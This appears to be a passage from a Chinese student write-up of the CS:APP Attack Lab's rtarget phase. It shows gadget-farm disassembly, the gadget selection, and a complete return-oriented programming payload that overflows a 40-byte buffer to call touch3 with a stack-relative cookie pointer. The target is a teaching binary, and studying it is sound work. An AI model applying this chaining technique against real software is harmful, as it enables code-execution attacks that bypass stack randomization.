  401a54:       b8 89 c2 c4 c9          mov    $0xc9c4c289,%eax
  401a59:       c3                      retq

0000000000401a5a <setval_299>:
  401a5a:       c7 07 48 89 e0 91       movl   $0x91e08948,(%rdi)
  401a60:       c3                      retq

0000000000401a61 <addval_404>:
  401a61:       8d 87 89 ce 92 c3       lea    -0x3c6d3177(%rdi),%eax
  401a67:       c3                      retq

0000000000401a68 <getval_311>:
  401a68:       b8 89 d1 08 db          mov    $0xdb08d189,%eax
  401a6d:       c3                      retq

0000000000401a6e <setval_167>:
  401a6e:       c7 07 89 d1 91 c3       movl   $0xc391d189,(%rdi)
  401a74:       c3                      retq

0000000000401a75 <setval_328>:
  401a75:       c7 07 81 c2 38 d2       movl   $0xd238c281,(%rdi)
  401a7b:       c3                      retq

0000000000401a7c <setval_450>:
  401a7c:       c7 07 09 ce 08 c9       movl   $0xc908ce09,(%rdi)
  401a82:       c3                      retq

0000000000401a83 <addval_358>:
  401a83:       8d 87 08 89 e0 90       lea    -0x6f1f76f8(%rdi),%eax
  401a89:       c3                      retq

0000000000401a8a <addval_124>:
  401a8a:       8d 87 89 c2 c7 3c       lea    0x3cc7c289(%rdi),%eax
  401a90:       c3                      retq

0000000000401a91 <getval_169>:
  401a91:       b8 88 ce 20 c0          mov    $0xc020ce88,%eax
  401a96:       c3                      retq

0000000000401a97 <setval_181>:
  401a97:       c7 07 48 89 e0 c2       movl   $0xc2e08948,(%rdi)
  401a9d:       c3                      retq

0000000000401a9e <addval_184>:
  401a9e:       8d 87 89 c2 60 d2       lea    -0x2d9f3d77(%rdi),%eax
  401aa4:       c3                      retq


0000000000401aa5 <getval_472>:
  401aa5:       b8 8d ce 20 d2          mov    $0xd220ce8d,%eax
  401aaa:       c3                      retq

0000000000401aab <setval_350>:
  401aab:       c7 07 48 89 e0 90       movl   $0x90e08948,(%rdi)
  401ab1:       c3                      retq

0000000000401ab2 <end_farm>:
  401ab2:       b8 01 00 00 00          mov    $0x1,%eax
  401ab7:       c3                      retq
  401ab8:       90                      nop
  401ab9:       90                      nop
  401aba:       90                      nop
  401abb:       90                      nop
  401abc:       90                      nop
  401abd:       90                      nop
  401abe:       90                      nop
  401abf:       90                      nop

```

经过与指令的字节表示进行对照，从上述代码中可以抽取的所有能使用的命令如下：

```c
00000000004019d6 <add_xy>: .7
  4019d6:       48 8d 04 37             lea    (%rdi,%rsi,1),%rax
  4019da:       c3                      retq
      
00000000004018fa <touch3>: .9      

popq  %rax 0x4019cc .1
movq %rsp, %rax （movl %esp, %eax）     0x401a06 .5      
movq  %rax, %rdi  （movl %eax, %edi）   0x4019a2 .6 .8
movl  %ecx, %esi 0x401a13 .4
mov %eax, %edx   0x4019dd .2

{movl %edx, %ecx
orb  %bl, %bl --rbx}

{movl  %eax, %edx 
testb, %al, %al ---rax}

{movl  %edx, %ecx  0x401a34 .3
cmpb, %cl, %cl ---rcx}

{movl  %ecx, %esi
cmpb, %al, %al ---rax}

andb  %al, %al --rax
andb, %bl, %bl  //rbx
andb  %dl, %dl --rdx
orb %bl, %bl  --rbx
orb  %cl, %cl --rcx
cmpb  %dl, %dl --rdx
testb %al, %al   // rax
```

因为在rtarget文件中使用了**栈随机化来避免缓冲区溢出攻击**，因此尽管我们可以直接输入cookie的内容，但是我们无法得到该内容的绝对地址，因此无法将该绝对地址传送给touch3，来作为touch3函数的参数，所以我们必须要**通过相对地址来传送该参数**，是通过**%rsp + 偏移量**来确定cookie内容的相对地址。

1. 因为要计算相对地址，所有我们必须要进行加法运算，查看上述所有找出来的命令，只有<add_xy>能进行加法计算，并且该计算使用的两个寄存器%rdi，%rsi，因此我们必须要把**%rsp的值**和**偏移量**传送到这两个寄存器中。

2. **偏移量传送到%rsi过程**：
   $$
   .1 \rightarrow .2 \rightarrow .3 \rightarrow .4
   $$
   对应代码：

   ```c
   popq  %rax 0x4019cc .1
   mov %eax, %edx   0x4019dd .2
   {movl  %edx, %ecx  0x401a34 .3
   cmpb, %cl, %cl ---rcx}
   movl  %ecx, %esi 0x401a13 .4
   ```

   

3. **%rsp传送到%rdi过程：**
   $$
   .5 \rightarrow .6
   $$
   

   对应代码：

   ```c
   movq %rsp, %rax （movl %esp, %eax）     0x401a06 .5 
   movq  %rax, %rdi  （movl %eax, %edi）   0x4019a2 .6 
   ```

   

4. 计算相对地址及将相对地址作为参数传递给touch3函数：
   $$
   .7 \rightarrow .8
   $$
   对应代码：

   ```c
   00000000004019d6 <add_xy>: .7
   movq  %rax, %rdi  （movl %eax, %edi）   0x4019a2 .8
   ```

5. 最后是touch3函数的地址及cookie的内容

因此最终的输入文本是：

```
40 40 40 40 40 40 40 40
40 40 40 40 40 40 40 40
40 40 40 40 40 40 40 40
40 40 40 40 40 40 40 40
40 40 40 40 40 40 40 40  #前40个字节的缓冲区大小
cc 19 40 00 00 00 00 00  # .1 popq  %rax
20 00 00 00 00 00 00 00  # 偏移量大小：因为从.5处开始传递%rsp的值，而.5和.10相差32个字节位置，因此偏移量大小为32，即0x20。
dd 19 40 00 00 00 00 00  # .2 mov %eax, %edx
34 1a 40 00 00 00 00 00  # .3 movl  %edx, %ecx
13 1a 40 00 00 00 00 00  # .4 movl  %ecx, %esi
06 1a 40 00 00 00 00 00  # .5 movq %rsp, %rax 
a2 19 40 00 00 00 00 00  # .6 movq  %rax, %rdi
d6 19 40 00 00 00 00 00  # .7 <add_xy> 即 lea    (%rdi,%rsi,1),%rax
a2 19 40 00 00 00 00 00  # .8 movq  %rax, %rdi
fa 18 40 00 00 00 00 00  # .9 touch3函数的地址
35 39 62 39 39 37 66 61 00 # .10 cookie的内容的存储位置
```

